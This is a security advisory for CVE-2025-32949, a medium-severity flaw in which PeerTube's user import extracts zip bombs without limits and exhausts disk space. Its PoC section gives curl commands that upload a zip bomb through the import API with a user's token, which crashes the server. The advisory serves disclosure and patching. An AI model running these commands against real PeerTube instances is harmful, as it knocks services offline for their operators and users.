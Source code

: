 ```yaml
---
description: CVE-2025-32949 Medium severity. PeerTube User Import Authenticated Resource Exhaustion
title: PeerTube User Import Authenticated Resource Exhaustion
date_published: "2025-04-14"
last_updated: "2025-04-14"
xray_id:
vul_id: CVE-2025-32949
cvss: 6.5
severity: medium
discovered_by: Ori Hollander
type: vulnerability
---
```

## Summary
This vulnerability allows any authenticated user to cause the server to consume very large amounts of disk space when extracting a Zip Bomb



## Component

[PeerTube](https://github.com/Chocobozzz/PeerTube)



## Affected versions

(, 7.1.1)



## Description

If user import is enabled (which is the default setting), any registered user can upload an archive for importing. The code uses the yauzl library for reading the archive.
The yauzl library does not contain any mechanism to detect or prevent extraction of a [Zip Bomb](https://en.wikipedia.org/wiki/Zip_bomb). Therefore, when using the User Import functionality with a Zip Bomb, PeerTube will try extracting the archive which will cause a disk space resource exhaustion.

## PoC

This PoC assumes that there is a PeerTube instance on the machine listening on ports 3000 (client) and 9000 (server). Note that running this PoC will cause PeerTube’s server to shut down.
1. First, using a browser, log in to the PeerTube instance with any user’s credentials, and use the inspection screen to copy the authorization token of the user.
1. Create a Zip Bomb named `evil.zip` in the current directory
1. In a terminal, run the following commands (replace “user_token” with the token obtained from step #1):
```
new_location=http:$(curl -s -D - 'http://127.0.0.1:3000/api/v1/users/1/imports/import-resumable' -H 'Authorization: Bearer user_token' -H 'Content-Type: application/json; charset=UTF-8' -H 'X-Upload-Content-Length: 168' -H 'X-Upload-Content-Type: application/x-zip-compressed' --data-raw '{"name":"evil.zip","mimeType":"application/x-zip-compressed","size":168,"lastModified":1743493990068,"filename":"evil.zip"}' | awk '/^location:/{print $2}' | tr -d '\r')
curl -X PUT "$new_location" -H "Content-Type: application/octet-stream" -H "Content-Range: bytes 0-167/168" -H 'Authorization: user_token' --data-binary @evil.zip
```
If everything was done correctly, the PeerTube server will begin extracting the zip file, which will cause disk space resource exhaustion.



## Vulnerability Mitigations

No mitigations are supplied for this issue



## References

[Fix release](https://github.com/Chocobozzz/PeerTube/releases/tag/v7.1.1)
